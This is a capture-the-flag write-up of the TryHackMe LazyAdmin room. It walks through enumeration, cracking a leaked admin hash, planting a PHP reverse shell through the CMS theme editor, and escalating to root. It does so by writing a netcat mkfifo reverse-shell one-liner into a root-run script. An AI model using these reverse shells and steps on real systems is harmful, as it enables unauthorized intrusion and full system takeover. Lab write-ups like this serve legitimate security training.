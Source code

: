 ```yaml
---
layout: post
title:  "TryHackMe - LazyAdmin (Easy)"
description: "Easy Linux machine to practice your skills"
author: 0x5ubt13
date: 2021-01-17 14:30:00 +0000
categories: Write-Ups
tags: write-up OSCP Pentesting Ethical-Hacking Password-Cracking Easy PHP-reverse-shell
---
```


# Welcome and link to the room

![room_logo](/assets/images/write-ups/tryhackme/lazyadmin/lazyadmin_logo.png)

Welcome to my second write-up, this time based on the room LazyAdmin from TryHackMe. This is the second of a series of rooms I will be covering on my personal Road to OSCP journey.

You can find the room for free in the following link: [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)

<p>&nbsp;</p>

# Reconnaissance:

First off as usual, we run our favourite scan to see what's for us in store.

```sh
ip=10.10.115.249
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -oN lazyadmin_initial.nmap -p$ports $ip
```

Since there's nothing special to see in the aggresive scan, I will paste a simplified scan, just to show port 80 and 22 are the only ones open and omitting the rest:

![Scan](/assets/images/write-ups/tryhackme/lazyadmin/scan.png)

Let's dive right into the website!

<p>&nbsp;</p>

# Scouting Port 80:

Upon connecting, we see the dull apache welcoming page:

![Def page](/assets/images/write-ups/tryhackme/lazyadmin/def_page.png)

Looks like it's GoBuster time!

In order to find some hidden directories, a simple Gobuster's command goes like this:

`gobuster -dir -w <your wordlist> -u <the target URL>`

Since this is an easy box, I will be using a small, default list:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249`

![GoBuster first scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_1st_scan.png)

It looks like we have a finding: `/content/`.
If we jump in, we see again a simple default page, however this time we have more information: it's using a CMS called SweetRice.
Finding nothing else, it's time to use Gobuster again, this time adding the directory we found to the base URL:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249/content`

![Gobuster second scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_2nd_scan.png)

Now we are finally advancing somewhere! Let's dig into those directories see what we find.

<p>&nbsp;</p>

# Enumerating Port 80:

I found something interesting whilst taking a peek into the `/inc` folder: an old database!

![Database found](/assets/images/write-ups/tryhackme/lazyadmin/database_found.png)
![Database found 2](/assets/images/write-ups/tryhackme/lazyadmin/database_found2.png)

We have several options now with this MySql database. One, would be to start an database service and load the backup; or we could just cat the code for a quicker, dirtier approach to avoid us some trouble if there was nothing really in there.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Fortunately, there was indeed something valuable in there: the admin password hash! He was a lazy admin indeed...

![Hash found](/assets/images/write-ups/tryhackme/lazyadmin/hash_found.png)

<p>&nbsp;</p>

# Cracking the password:

I know using Hashcat or John The Ripper is really cool, but the quickest way of cracking any hash is just throwing it against rainbow tables in the internet and pray for it to be in the database. In case these fail, we can always sweat trying to crack it, but why going through the whole process if the title of the room is "LazyAdmin"?

![Password cracked](/assets/images/write-ups/tryhackme/lazyadmin/password_cracked.png)

Well, no surprise on this one, it really was a weak password!

<p>&nbsp;</p>

# Find Password, Use Password!

When we peeked over the database backup we found, we also saw the username "manager". Along with knowing the password, we are entitled now to try and login to the website's admin portal, located in one of the directories we enumerated with Gobuster. Enumeration matched with the login portal:

![Login](/assets/images/write-ups/tryhackme/lazyadmin/login.png)

![Admin panel](/assets/images/write-ups/tryhackme/lazyadmin/admin_panel.png)

<p>&nbsp;</p>

# Reverse shell

Once we are inside the admin panel in the website, we start enumerating what's inside. If we take a look inside Themes, we see we can manipulate php files to configure the website's theme with them. Well, smells like php reverse shell!!

![Reverse shell prep](/assets/images/write-ups/tryhackme/lazyadmin/reverse_shell_prep.png)

We will be using Pentest Monkeys' PHP reverse shell. Only thing we have to do is setting up our tun0 IP address and listening in the port we specify.

![Modifying theme php reverse shell](/assets/images/write-ups/tryhackme/lazyadmin/modifying_theme_php_reverse_shell.png)

Now, everything is prepared. All we have to do at this point is navigating to the `_themes` directory we enumerated earlier with Gobuster and finding the php file we edited. 

Set up the listener. 
Click. 
*We are in*. 

![We are in](/assets/images/write-ups/tryhackme/lazyadmin/we_are_in.png)

<p>&nbsp;</p>

# Privilege Escalation Phase

![Privesc prep](/assets/images/write-ups/tryhackme/lazyadmin/privesc_prep.png)

1. We try a quick `sudo -l` to check whether we can use any command as sudo with our current user... And yes!
2. We can call a perl script in the `/home/itguy/` directory without providing `sudo` password.
3. The content of `/home/itguy/backup.pl`. It's non-writable. We can see it's calling a script located in `/etc/` directory. Maybe we can write to it?
4. Taking a look at the permissions of the file, it looks like we can actually write to it and the owner is root!! Therefore, if we modify it to spawn a reverse shell in our ip, we should be able to pop a root shell. Let's try it out!

<p>&nbsp;</p>

# Pwning the machine

Now that we know we have access to that file, let's make it call a root bash reverse shell. 

Since nano is blocked and vi or vim are missing from the system, we can use `echo` redirect to write to a file. 
My full command looks like this:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.124 5556 >/tmp/f" > /etc/copy.sh
```

Then, calling the perl script will promote us to boss level on the box:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Pwned](/assets/images/write-ups/tryhackme/lazyadmin/pwned.png)

<p>&nbsp;</p>


